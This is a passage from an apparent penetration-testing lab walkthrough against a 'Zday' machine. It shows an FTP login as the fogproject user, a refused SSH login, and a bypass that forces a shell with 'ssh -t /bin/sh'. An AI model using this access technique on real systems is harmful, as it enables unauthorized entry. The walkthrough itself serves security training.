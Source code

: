 ```bash
┌──(pentester㉿kali)-[/Zday/Scans/Service]
└─$ ftp 10.0.2.5
Connected to 10.0.2.5.
220 (vsFTPd 3.0.3)
Name (10.0.2.5:pentester): fogproject
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
When we enumerate the system using the FTP, we can see that our current directory is under the **/home** parent directory. This tells us that the user fogproject is also a local system user.
```bash
ftp> pwd
Remote directory: /home/fogproject
ftp> 
```
Unfortunately, When we try to log in using the same password we can see that access to the default ssh shell is refused.
```bash
┌──(pentester㉿kali)-[/Zday/Misc File]
└─$ ssh fogproject@10.0.2.5 
fogproject@10.0.2.5's password: 
Linux zday 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 11 10:19:53 2024 from 10.0.2.15
You seem to be using the 'fogproject' system account to logon and work 
on your FOG server system.

It's NOT recommended to use this account! Please create a new 
account for administrative tasks.

If you re-run the installer it would reset the 'fog' account 
password and therefore lock you out of the system!

Take care, 
your FOGproject team
Connection to 10.0.2.5 closed.
```
A common way to bypass this is to force the pseudo-terminal allocation by setting another shell for login. This is done using the **-t** argument.
```bash
┌──(pentester㉿kali)-[/Zday/Misc File]
└─$ ssh fogproject@10.0.2.5 -t /bin/sh
fogproject@10.0.2.5's password: 
$ whoami
fogproject
$ 
```
